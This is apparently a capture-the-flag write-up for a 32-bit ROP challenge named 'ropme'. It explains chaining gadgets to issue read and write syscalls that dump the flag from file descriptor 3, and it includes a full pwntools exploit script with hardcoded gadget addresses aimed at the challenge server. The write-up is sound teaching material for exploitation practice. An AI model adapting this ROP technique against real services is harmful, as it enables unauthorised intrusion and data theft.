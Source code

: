 ## ropme

---

FLAG{REDACTED}

---

The final rop challenge.
I'm sure there's a way to run `puts(<puts@plt>)`, leaking libc, but unlike the previous challenges, I simply used the read and write syscalls to dump the flag instead of trying to pop a shell.

Interestingly, because of how the program works, the flag file is bound to be opened in the next available file descriptor: `3` (after `stdin`, `stdout` and `stderr`). Exploiting this fact, we can dump the `flag` file without a shell.

**Notes:**

1. What you want to be careful is not to put too many bytes into the stream, so you don't end up going beyond the possible number of bytes the program can take in before you crash it. The payload is fairly large, and the "buffer" rather small at only 8 bytes.
2. On the flip-side, you also need to remember that you're overwriting the buffer you're putting the rop chain in, so you need to make sure that the next rop instruction is not accidently overwritten. This probably won't happen because all the rop gadgets are 4 bytes long, whereas the instruction inside: `add edx, 1; ret;` only adds one byte the total number of characters to write.

```python
#!/usr/bin/python3

from pwn import *

#p = process('./ropme')
p = remote('plsdonthaq.me', 6004)

#gdb.attach(p)

# ecx is set

# mov edx, 0
zeroEdx = p32(0x080484ef)

# add edx, 1
addEdx = p32(0x080484fc)

# ebx
setEbx = zeroEdx + addEdx + p32(0x08048502)
setEbx2 = p32(0x08048420)

# mov eax, 3
setEax = zeroEdx + addEdx + addEdx + addEdx + p32(0x08048500)

# mov eax, 4
setEax2 = zeroEdx + addEdx + addEdx + addEdx + addEdx + p32(0x08048500)

# int 0x80
syscall = p32(0x080484f2)

# 8 bytes in the buffer + ebp
padding = b'A' * 12

p.sendline(padding + setEax + (addEdx * 100) + syscall + setEax2 + setEbx + (addEdx * 100) + syscall)

p.interactive()
```
